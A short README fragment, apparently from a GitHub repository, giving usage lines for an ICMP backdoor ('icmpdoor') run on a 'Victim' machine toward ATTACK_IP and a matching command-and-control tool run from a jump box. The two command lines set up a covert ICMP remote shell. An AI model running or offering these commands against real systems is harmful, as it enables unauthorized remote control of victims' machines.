 ## Binaries: ICMPDoor, icmp-cnc

### 1) Victim: sudo icmpdoor -i INTERFACE -d ATTACK_IP

### 2) Jumbox: sudo icmp-cnc -i INTERFACE -d VICTIM_IP
